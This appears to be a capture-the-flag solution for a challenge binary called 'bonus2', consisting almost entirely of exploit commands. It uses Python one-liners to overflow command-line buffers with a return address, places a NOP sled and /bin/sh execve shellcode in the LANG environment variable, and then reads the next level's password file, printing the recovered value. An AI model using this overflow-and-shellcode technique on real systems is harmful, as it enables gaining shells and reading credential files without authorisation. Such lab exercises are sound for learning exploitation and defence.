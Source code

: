 # ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "A" * 23 + "\xe6\xfe\xff\xbf"') 

# export LANG=$(python -c 'print("fi" + "\x90" * 150 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80")')

# ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "A" * 18 + "\xe6\xfe\xff\xbf"')

# cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587